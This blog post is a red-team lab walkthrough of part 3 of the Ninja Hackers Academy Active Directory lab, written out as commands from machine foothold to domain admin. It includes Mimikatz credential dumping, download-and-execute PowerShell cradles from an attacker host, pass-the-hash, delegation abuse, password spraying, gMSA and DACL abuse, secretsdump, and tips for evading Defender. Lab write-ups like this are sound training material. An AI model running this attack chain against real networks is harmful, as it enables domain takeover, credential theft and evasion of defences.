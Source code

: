 ```yaml
---
title: "AD Pwnage: Ninja Hackers Academy Part 3"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2024-02-05
description: "Hacking into NHA - AD based Lab Red Team way."
tags: [Red Team]
---
```


## Introduction
In the previous one, we pivoted from one machine to another using the `GenericAll` privileges over a container and then using RBCD to successfully generate a ticket that gave us the keys as Administrator to the `WEB$` machine. In this one we are going to see how we can go from there to other machines. The goal here is to reach domain admin in this domain and then do some trust hax and jump to any other forest that there might be (there is. this should have been covered by the reader in the previous posts when we got iniital access to the domain.) 

## Harvesting Creds
Before going nay further, we will make sure not to lose access. For that I'll run the same modified `Invoke-Mimikatz.ps1` script. I have added the following lines in the end of the script.
```bash
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command "token::elevate lsadump::sam exit"
Invoke-Mimikatz -Command "token::elevate sekurlsa::ekeys exit"
```

So using the same command we can dump some hashes.
```bash
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://192.168.58.50/safedogz.ps1') -UseBasicParsing | iex"
```
![WEB Hashes](/assets/img/NHA/web_hashes.png)

Notably, we get the follwoing hashes that we need to save.
```
Administrator:0c532fcf2046010cb8d38eedf5e45312
frank:d4fad93561dee253398d5891e991a6fb
WEB$:1cee40630bb1fe3f4ae2adfc6e7ec977
```

With this, we seem to have a user account. One we didn't have previously. We can try to see what this account can access using this command.
```bash
netexec smb 192.168.58.0/24 -u frank -H d4fad93561dee253398d5891e991a6fb
```

![Frank Hash](/assets/img/NHA/frank_hash.png)

We can use `evil-winrm` to login to any of these machines and confirm our access.
```bash
evil-winrm -i 192.168.58.21 -u frank -H d4fad93561dee253398d5891e991a6fb
``` 

![Frank Web Access](/assets/img/NHA/frank_web.png)

## BloodHound to the rescue (again...)
After this, we can try to find something interesting in the machines itself, locating passwords from browsers etc. and such. I have tried it. Couldn't find anything worth while. We can move over to BloodHound again. We can start by marking assets that we have access to now as owned. Then map a path from the owned principles to other assets in the domain. While doing it for `SHARE$` machine, I can see that user `frank` has a right to delegate to that machine.
We can confirm this by using this command.
```bash
findDelegation.py academy.ninja.lan/frank -hashes d4fad93561dee253398d5891e991a6fb:d4fad93561dee253398d5891e991a6fb -dc-ip 192.168.58.20
```

![List Delegations](/assets/img/NHA/delegations.png)

This shows us that user `frank` has Constrained Delegation with Protocol Transition rights for the `eventlog` service. This can be read about [here](https://www.thehacker.recipes/a-d/movement/kerberos/delegations/constrained#with-protocol-transition).
As seen here, `frank` has the rights to the service `eventlog`. This can be misused by creating a service ticket by using the user `frank` which will impersonate `Administrator` to the service `eventlog`. But we will also provide a diferent service using the `altservice` flag of `CIFS` which will help us access the file system or use tools like `PSExec` or `SMBExec`. This happens because the service name part of the ticket is not protected so we can change it whatever we like.
One thing to note, the original Impacket's `getST.py` will not have the option for `altservice`. You can use [this](https://github.com/ShutdownRepo/impacket/tree/getST) to get the one with this flag.

```bash
/opt/impacket-getst/examples/getST.py -spn 'eventlog/share' -altservice 'cifs/share' -impersonate Administrator -dc-ip 'academy.ninja.lan' "academy.ninja.lan"/"frank" -hashes d4fad93561dee253398d5891e991a6fb:d4fad93561dee253398d5891e991a6fb
```

![Asking Service Ticket](/assets/img/NHA/constrained.png)

After this we can export it and see if it works using `SMBExec.py`
```bash
export KRB5CCNAME=Administrator@cifs_share@ACADEMY.NINJA.LAN.ccache

smbexec.py @share -k -no-pass -dc-ip 192.168.58.20 -target-ip 192.168.58.23
```


![Shell on SHARE](/assets/img/NHA/share_shell.png)

On thing to mention, the usual Impacket was immediately getting detected. But for some reason Impacket for Exegol was not. That worked fine. You can find that [here](https://github.com/ThePorgs/impacket).
After moving it to our C2, we can look around for some thing interesting. I found a `bot.ps1` script that contains the password of `frank` user.

![Frank Password](/assets/img/NHA/frank_pass.png)

We can try to spray this password over all the users in the domain to find if we can find another user with this same password.
```bash
netexec smb 192.168.58.20 -u creds/academy_users.txt -p 'Il0ve!R4men_<3' --continue-on-success
``` 

![Password Spray](/assets/img/NHA/spray.png)

## GMSA Dumping
That doesn't give us much. We can move back to BloodHound to check what we can find. By looking around, we can find that the machine we just got into has the ability to read GMSA password of the `gmsaNFS$` machine. This is, as the name suggests, a NFS or a file share account which is a machine account.

![GMSANFS$ Path](/assets/img/NHA/gmsa.png)

For this, we would need the machine account hash for `SHARE$`. After aquiring the hash we can use `gMSADumper.py` to confirm that `SHARE$` can read the password. For some reason it was not dumping the password itself.
```bash
python /opt/gMSADumper/gMSADumper.py -u SHARE$ -p 791782105dd864621fbbf9e0fbed9fc7:791782105dd864621fbbf9e0fbed9fc7 -d academy.ninja.lan -l dc-ac.academy.ninja.lan
```

At this point, the default havoc payload was not working. [This](https://github.com/Maldev-Academy/MaldevAcademyLdr.1) is my new best friend (lowkey waiting for a discount or a giveaway...). If after access its giving you troubles, you can always remove the defender definitions to make eveything else be nice.

![GMSANFS$ Read](/assets/img/NHA/gmsa_share.png)

We can use [this](https://github.com/rvazarkar/GMSAPasswordReader) to dump the passwords instead using havoc.
```bash
dotnet inline-execute /opt/Toolies/GMSAPasswordReader.exe --AccountName gmsaNFS$
```

And we get the hashes.

![Dumped GMSANFS$](/assets/img/NHA/dump_gmsa.png)

## ACL Pwning

Having a look in BloodHound we can see that the machine `gmsaNFS$` has an ACL `ForceChangePassword` over the backup user. We can use PowerView to do this.
```bash
IEX(New-Object Net.WebClient).downloadString('http://192.168.58.50/PowerView.ps1')

$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'backup' -AccountPassword $NewPassword
```

After this, we canfirm it using `netexec`
```bash
netexec smb 192.168.58.20 -u backup -p 'Password123!'
```

![Backup User](/assets/img/NHA/backup_user.png)


## Over to the Domain Admin

Back to good ol' bloodhound. We can see that this user basicallty carries the keys to the domain.

![Backup Bloodhound](/assets/img/NHA/backup_blood.png)

We can again confirm that using `owneredit.py` from the ShutDownRepo fork of `impacket`.
```bash
/opt/impacket-getst/examples/owneredit.py -action read -target 'Domain Admins' academy.ninja.lan/backup:'Password123!'
```


We can use this to change the owner of the Domain Admins group to `backup` as well.
```bash
/opt/impacket-getst/examples/owneredit.py -action write -new-owner 'backup' -target 'Domain Admins' academy.ninja.lan/backup:'Password123!'
```


Once that is done we can easily update the user `backup` to have `GenericAll` privileges over the `Domain Admins` group using `dacledit.py`.
```bash
dacledit.py -action 'write' -rights 'FullControl' -principal backup  -target 'Domain Admins' 'academy.ninja.lan'/'backup':'Password123!' 
```


This can again be confirmed using BloodHound dump.
```bash
bloodhound-python -c all -d academy.ninja.lan -v -u backup -p 'Password123!' -ns 192.168.58.20 --zip
```

Once that is confirmed, the only thing remaining is really just adding ourselves in the `Domain Admins` group.
```bash
net rpc group addmem 'Domain Admins' backup -U academy.ninja.lan/backup -S 192.168.58.20
```


Confirming it works.
![Backup Domain Admin](/assets/img/NHA/backup_domainadmin.png)


With all this out of the way, we can finally dump the domain secrets using `secretsdump.py` and pwn the whole domain.
```bash
impacket-secretsdump 'academy.ninja.lan'/'backup':'Password123!'@192.168.58.20 -dc-ip 192.168.58.20 -outputfile domain
```

<br>

![Secrets Dump](/assets/img/NHA/secrets.png)


Finally, we can log in to the domain controller to confirm.

![Domain Admin](/assets/img/NHA/domain_admin.png)


This marks the end of the third post with us being the domain administrator in the domain. But the work is not finished. In the next one we will move from this domain to the other domain in the trust relationship. Let me know if I missed or messed up a step. Be happy to help!